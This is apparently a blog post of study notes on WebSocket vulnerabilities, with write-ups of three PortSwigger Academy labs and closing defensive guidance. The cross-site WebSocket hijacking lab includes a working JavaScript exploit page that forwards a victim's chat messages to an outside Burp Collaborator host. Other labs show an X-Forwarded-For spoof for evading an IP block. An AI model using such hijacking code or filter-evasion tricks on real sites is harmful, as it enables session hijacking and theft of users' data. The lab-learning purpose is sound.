

+++
title = 'WebSockets Vulnerabilities'
date = '2026-08-22T07:44:25+05:45'
draft = false
tags = []
featureimage = 'web.png'
+++


WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connection with asynchronous in both directions. WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

---

## Manipulating WebSocket Traffic:

Burpsuite can be used to manipulate WebSocket Traffic.

You can use Burp Suite to:

- Intercept and modify WebSocket messages.
- Replay and generate new WebSocket messages.
- Manipulate WebSocket connections.

---

## Replaying and generating new WebSocket messages:

As well as intercepting and modifying WebSocket messages on the fly, you can replay individual messages and generate new messages. You can do this using Burp Repeater:

- In Burp Proxy, select a message in the WebSockets history, or in the Intercept tab, and choose "Send to Repeater" from the context menu.
- In Burp Repeater, you can now edit the message that was selected, and send it over and over.
- You can enter a new message and send it in either direction, to the client or server.
- In the "History" panel within Burp Repeater, you can view the history of messages that have been transmitted over the WebSocket connection. This includes messages that you have generated in Burp Repeater, and also any that were generated by the browser or server via the same connection.
- If you want to edit and resend any message in the history panel, you can do this by selecting the message and choosing "Edit and resend" from the context menu.

---

## Manipulating WebSocket connections:

As well as manipulating WebSocket messages, it is sometimes necessary to manipulate the WebSocket handshake that establishes the connection.

There are various situations in which manipulating the WebSocket handshake might be necessary:

- It can enable you to reach more attack surface.
- Some attacks might cause your connection to drop so you need to establish a new one.
- Tokens or other data in the original handshake request might be stale and need updating.

You can manipulate the WebSocket handshake using Burp Repeater:

- Send a WebSocket message to Burp Repeater as already described.
- In Burp Repeater, click on the pencil icon next to the WebSocket URL. This opens a wizard that lets you attach to an existing connected WebSocket, clone a connected WebSocket, or reconnect to a disconnected WebSocket.
- If you choose to clone a connected WebSocket or reconnect to a disconnected WebSocket, then the wizard will show full details of the WebSocket handshake request, which you can edit as required before the handshake is performed.
- When you click "Connect", Burp will attempt to carry out the configured handshake and display the result. If a new WebSocket connection was successfully established, you can then use this to send new messages in Burp Repeater.

---

## WebSockets security vulnerabilities:

In principle, practically any web security vulnerability might arise in relation to WebSockets:

- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
- Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

---

### Manipulating WebSocket messages to exploit vulnerabilities:

The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

For example a chat application uses WebSockets to send chat messages between the server and the browser. 

When a user types a chat message, a WebSocket message like the following is sent to the server:

```
{"message":"Hello Carlos"}
```

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:

```
<td>Hello Carlos</td>
```

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

```
{"message":""}
```

---

#### LAB: Manipulating WebSocket messages to exploit vulnerabilities

[](https://portswigger.net/web-security/learning-paths/websockets-security-vulnerabilities/manipulating-websocket-messages-to-exploit-vulnerabilities/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)

This online shop has a live chat feature implemented using WebSockets.

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.

In the chat functionality check that it is being send through WebSockets. When a special character in message is sent it encodes it and then sends it. Intercept the WebSocket when submitting a script for alert and look it is encoded and change the script to not be encoded. The following is the script that I used:

```html

```




---

Some  WebSockets vulnerabilities can only be found and exploited by manipulating the WebSocket handshake. 

- Misplaced trust in HTTP headers to perform security decisions, such as the `X-Forwarded-For` header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

---

#### LAB: Manipulating the WebSocket handshake to exploit vulnerabilities:

[](https://portswigger.net/web-security/learning-paths/websockets-security-vulnerabilities/manipulating-the-websocket-handshake-to-exploit-vulnerabilities/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)

This online shop has a live chat feature implemented using WebSockets.

It has an aggressive but flawed XSS filter.

To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.

When chatting if the normal XSS script is sent it block immediately and blocks the ip address too.

```html

```

First we need to reconnect by adding the following handshake header.

```html

 X-Forwarded-For: 1.1.1.1
```

Then click reconnect and send a WebSocket message containing a obfuscated XSS payload, for example:

```html

```


---

### Using Cross-site WebSockets to exploit vulnerabilities:

Some WebSockets security vulnerabilities arise when an attacker makes a cross-domain WebSocket connection from a web site that the attacker controls. This is known as a cross-site WebSocket hijacking attack, and it involves exploiting a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake.

---

#### What is Cross-site WebSocket hijacking?

Cross-site WebSocket Hijacking ( also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. 

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

---

#### What is the impact of cross-site WebSocket hijacking?

A successful cross-site WebSocket hijacking attack will often enable an attacker to:

- Perform unauthorized actions masquerading as the victim user.
- Retrieve sensitive data that the user can access.

---

#### Performing a cross-site WebSocket hijacking attack:

Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:

```html
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

<aside>
💡

The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

</aside>

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:

- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.

---

#### LAB: Cross-site WebSocket Hijacking:

[](http://portswigger.net/web-security/learning-paths/websockets-security-vulnerabilities/using-cross-site-websockets-to-exploit-vulnerabilities/websockets/cross-site-websocket-hijacking/lab)

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

The vulnerability is in the chat functionality of the web application it uses WebSockets to send the messages to the server and the client.


The 5 one is the Ready packet which also known as the WebSocket Handshake


When the page is reloaded then the we see the previous and we are again connected to the web socket.

Lets check the HTTP history for possible cross-site WebSocket Hijacking Vulnerability. The only criteria it has to meet is it should not contain any unpredictable cookies.


We see that is only verified by using session cookie which might be vulnerable to CSRF attack.

Lets try bey deleting our session cookie and trying with new one and then again trying with out old session cookie if the previous history is shown.


I tried with old cookie and it worked


So now lets make a script using burpsuite collaborator to get the WebSockets message of the victim which is only available for burpsuite professional.

There are two thing to look for in the source code.

- The chat functionality is creating secure WebSocket every time when chat is initialized.
- It is using a `chat.js`


Now we will use this same code to create our exploit.

The script that i used is below

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Cross-Site WebSocket Hijacking</title>
    <body>
        <script>
            var WebSocket = new WebSocket("wss://0a93003d03842ee7805c03bf00c50005.web-security-academy.net/chat");

            WebSocket.onopen = function (evt) {
                WebSocket.send("READY");
            }

            WebSocket.onmessage = function (evt) {
                var message = evt.data;
                fetch("https://98ffcfry1mocbds62xaf1gbuhlncb2zr.oastify.com",{
                    method: "POST",
                    body: message,
                    mode: "no-cors"
                })
            }
        </script>
    </body>
</html>
```

The fetch URL is from the collaborator of the burpsuite professional.

When this script is stored in the exploit server and then this script is delivered to the victim. In collaborator we see some of the WebSocket messages.


In here we see that chat of carlos with the Hal pline and we get the password of carlos and then we login into carlos account then the lab is solved. 

```markdown
Password of Carlos: t4xgw0muf6kl2zog0xj2
```


---

## How to secure a WebSocket connection:

To minimize the risk of security vulnerabilities arising with WebSockets, use the following guidelines:

- Use the `wss://` protocol (WebSockets over TLS).
- Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
- Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
- Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities such as SQL injection and cross-site scripting.

---